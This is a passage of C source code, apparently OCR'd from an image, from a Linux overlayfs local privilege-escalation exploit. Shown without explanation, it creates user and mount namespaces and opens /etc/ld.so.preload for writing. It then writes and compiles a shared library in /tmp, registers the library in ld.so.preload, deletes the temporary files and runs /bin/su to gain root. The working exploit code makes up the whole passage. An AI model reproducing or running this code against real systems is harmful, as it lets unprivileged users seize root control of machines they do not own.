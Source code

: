 ```
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}
```
